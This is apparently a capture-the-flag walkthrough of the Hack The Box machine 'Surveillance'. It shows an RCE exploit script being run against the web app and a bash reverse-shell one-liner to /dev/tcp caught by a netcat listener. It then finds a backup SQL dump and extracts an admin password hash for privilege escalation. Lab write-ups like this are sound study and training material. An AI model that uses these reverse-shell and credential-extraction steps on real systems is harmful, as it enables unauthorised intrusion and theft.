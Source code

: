```
┌──(kali㉿kali)-[~/Desktop/surveillance]
└─$ python3 exploit1.py --url http://surveillance.htb
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id; whoami; hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
surveillance
```

Using this rce exploit, we can then obtain a reverse shell connection to the server on our local listener

```
┌──(kali㉿kali)-[~/Desktop/surveillance]
└─$ python3 exploit1.py --url http://surveillance.htb
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ echo $SHELL

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.2/4000 0>&1'
--------------------------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000                                           
listening on [any] 4000 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.245] 35726
bash: cannot set terminal process group (1109): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web/cpresources$ 
```

# Privilege Escalation to matthew
Inside the ```~/html/craft/storage/backups``` directory, we are able to find zip file for backups

```
www-data@surveillance:~/html/craft/storage/backups$ ls -a
ls -a
.  ..  surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Unzipping the file, we realize that the zip files contain sql files. In the sql file, we are able to find the hash for ```matthew```

```
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```
